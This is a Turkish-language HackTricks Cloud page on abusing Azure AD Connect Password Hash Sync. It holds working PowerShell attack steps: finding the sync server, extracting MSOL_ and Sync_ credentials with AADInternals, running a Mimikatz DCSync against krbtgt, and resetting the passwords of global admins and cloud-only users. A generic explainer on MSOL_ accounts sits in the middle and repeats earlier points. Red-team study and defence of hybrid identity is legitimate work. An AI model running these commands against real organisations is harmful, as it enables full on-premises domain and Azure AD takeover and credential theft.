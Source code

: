 # Az - PHS - Password Hash Sync

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **HackTricks'e** [**PR göndererek**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunarak hacking ipuçlarını paylaşın.

</details>
{% endhint %}

## Temel Bilgiler

[Belgelerden:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Parola hash senkronizasyonu**, hibrit kimliği gerçekleştirmek için kullanılan oturum açma yöntemlerinden biridir. **Azure AD Connect**, bir kullanıcının parolasının hash'inin hash'ini, şirket içi Active Directory örneğinden bulut tabanlı bir Azure AD örneğine senkronize eder.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Bu, şirketlerin şirket içi AD'yi Azure AD ile senkronize etmek için kullandığı **en yaygın yöntemdir**.

Tüm **kullanıcılar** ve **parola hash'lerinin hash'i** şirket içinden Azure AD'ye senkronize edilir. Ancak, **düz metin parolalar** veya **orijinal** **hash'ler** Azure AD'ye gönderilmez.\
Ayrıca, **yerleşik** güvenlik grupları (örneğin, domain yöneticileri...) Azure AD'ye **senkronize edilmez**.

**Hash senkronizasyonu** her **2 dakikada** bir gerçekleşir. Ancak, varsayılan olarak, **parola süresi dolumu** ve **hesap** **süresi dolumu** Azure AD'de **senkronize edilmez**. Bu nedenle, **şirket içi parolası süresi dolmuş** (değiştirilmemiş) bir kullanıcı, eski parolayı kullanarak **Azure kaynaklarına erişmeye** devam edebilir.

Bir şirket içi kullanıcı bir Azure kaynağına erişmek istediğinde, **kimlik doğrulama Azure AD'de gerçekleşir**.

**PHS**, **Kimlik Koruması** ve AAD Domain Services gibi özellikler için gereklidir.

## Pivoting

PHS yapılandırıldığında bazı **ayrıcalıklı hesaplar** otomatik olarak **oluşturulur**:

* **`MSOL_<installationID>`** hesabı şirket içi AD'de otomatik olarak oluşturulur. Bu hesaba **Dizin Senkronizasyon Hesapları** rolü verilir (bkz. [belgeler](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)), bu da onun **şirket içi AD'de çoğaltma (DCSync) izinlerine sahip olduğu** anlamına gelir.
* **`Sync_<name of on-prem ADConnect Server>_installationID`** hesabı Azure AD'de oluşturulur. Bu hesap, Azure AD'deki **HERHANGİ bir kullanıcının** (senkronize edilmiş veya sadece bulut) **parolasını sıfırlayabilir**.

Önceki iki ayrıcalıklı hesabın parolaları, **Azure AD Connect'in kurulu olduğu sunucudaki** bir SQL sunucusunda **saklanır**. Yöneticiler, bu ayrıcalıklı kullanıcıların parolalarını düz metin olarak çıkarabilirler.\
Veritabanı `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf` konumunda bulunur.

Tablolardan birinden yapılandırmayı çıkarmak mümkündür, biri şifrelenmiş:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**Şifrelenmiş yapılandırma** **DPAPI** ile şifrelenmiştir ve şirket içi AD'deki **`MSOL_*`** kullanıcısının parolalarını ve AzureAD'deki **Sync\_\*** parolasını içerir. Bu nedenle, bunları ele geçirerek AD ve AzureAD'ye yükseltme yapmak mümkündür.

Bu kimlik bilgilerin nasıl saklandığı ve şifresinin çözüldüğüne dair [bu konuşmada](https://www.youtube.com/watch?v=JEIR5oGCwdg) tam bir genel bakış bulabilirsiniz.

### **Azure AD connect sunucusunu** bulma

**Azure AD connect'in kurulu olduğu sunucu** domain'e katılmışsa (belgelerde önerildiği gibi), şu şekilde bulunabilir:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### MSOL\_\* Kötüye Kullanımı

Azure AD Connect, Azure AD ile şirket içi Active Directory arasında kimlik bilgilerini senkronize eden bir araçtır. Bu araç, şirket içi Active Directory'den Azure AD'ye parola hash'lerini senkronize etmek için kullanılır. Bu senkronizasyon işlemi sırasında, MSOL\_\* hesapları oluşturulur ve bu hesaplar, Azure AD Connect'in çalışması için gerekli olan izinlere sahiptir.

MSOL\_\* hesapları, genellikle yüksek ayrıcalıklara sahiptir ve bu hesapların ele geçirilmesi, saldırganların hem şirket içi hem de bulut ortamlarında lateral hareket etmelerine olanak tanır. Bu nedenle, MSOL\_\* hesaplarının güvenliği son derece önemlidir.

#### MSOL\_\* Hesaplarının Tespiti

MSOL\_\* hesaplarını tespit etmek için aşağıdaki PowerShell komutunu kullanabilirsiniz:

```powershell
Get-ADUser -Filter {UserPrincipalName -like "MSOL_*"} -Properties *
```

Bu komut, MSOL\_\* hesaplarını ve bu hesapların özelliklerini listeleyecektir.

#### MSOL\_\* Hesaplarının Kötüye Kullanımı

MSOL\_\* hesaplarının ele geçirilmesi durumunda, saldırganlar bu hesapları kullanarak çeşitli saldırılar gerçekleştirebilirler. Örneğin, saldırganlar bu hesapları kullanarak şirket içi Active Directory'de veya Azure AD'de yeni kullanıcılar oluşturabilir, mevcut kullanıcıların parolalarını değiştirebilir veya diğer hassas işlemleri gerçekleştirebilirler.

MSOL\_\* hesaplarının kötüye kullanılmasını önlemek için, bu hesapların güçlü parolalarla korunması ve düzenli olarak denetlenmesi önemlidir. Ayrıca, bu hesapların yalnızca gerekli izinlere sahip olduğundan emin olunmalıdır.
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Bu kimlik bilgilerini elde etmek için [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) kullanabilirsiniz.
{% endhint %}

### Sync\_\* Kötüye Kullanımı

**`Sync_*`** hesabını ele geçirerek herhangi bir kullanıcının (Global Yöneticiler dahil) **şifresini sıfırlamak** mümkündür.
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Ayrıca **yalnızca bulut** kullanıcılarının parolalarını değiştirmek de mümkündür (bu beklenmedik olsa bile)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Bu kullanıcının şifresini de dökebilirsiniz.

{% hint style="danger" %}
Başka bir seçenek, **Sync** kullanıcısının **yetkileri** olan bir hizmet prensibine **ayrıcalıklı izinler atamak** ve ardından bu hizmet prensibine **erişerek** privesc yapmaktır.
{% endhint %}

### Seamless SSO

PHS ile Seamless SSO kullanmak mümkündür, bu da diğer suistimallere karşı savunmasızdır. Şuradan kontrol edin:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Referanslar

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) **bizi takip edin.**
* **HackTricks** ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR göndererek hacking ipuçlarını paylaşın.

</details>
{% endhint %}

